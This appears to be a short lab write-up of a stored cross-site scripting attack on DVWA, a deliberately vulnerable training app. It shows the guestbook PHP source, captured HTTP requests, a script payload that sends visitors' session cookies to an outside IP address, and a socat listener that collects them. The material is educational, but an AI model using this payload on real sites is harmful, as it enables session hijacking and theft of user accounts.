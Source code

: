 ```php
   // Sanitize name input
   $name = mysql_real_escape_string($name);
  
   $query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";
   
   $result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );
   
}

?>
```
## sample request
```
POST /dvwa/vulnerabilities/xss_s/ HTTP/1.1
Host: meta
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://meta
Connection: close
Referer: http://meta/dvwa/vulnerabilities/xss_s/
Cookie: security=low; PHPSESSID=ae2efb5757e6d8b6d9c1931b610819e5
Upgrade-Insecure-Requests: 1

txtName=test2&mtxMessage=test2&btnSign=Sign+Guestbook
```
## XSS Request: payload (url-encoded) in the txtMessage parameter (the txtName parameter was also vulnerable)
```html
<script>new Image().src="http://20.20.20.129/cool.jpg?output="+document.cookie;</script>
```
## Note: the comment field had a character limit where we couldn't insert the entire payload. That's why we used `burp` for that
```
POST /dvwa/vulnerabilities/xss_s/ HTTP/1.1
Host: meta
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
Origin: http://meta
Connection: close
Referer: http://meta/dvwa/vulnerabilities/xss_s/
Cookie: security=low; PHPSESSID=ae2efb5757e6d8b6d9c1931b610819e5
Upgrade-Insecure-Requests: 1

txtName=test&mtxMessage=<script>new+Image().src%3d"http%3a//20.20.20.129/cool.jpg%3foutput%3d"%2bdocument.cookie%3b</script>&btnSign=Sign+Guestbook
```
## When the page is visited, we get back the cookies on our socat listener:
```bash
socat -d -d TCP4-LISTEN:80,reuseaddr,fork STDOUT
```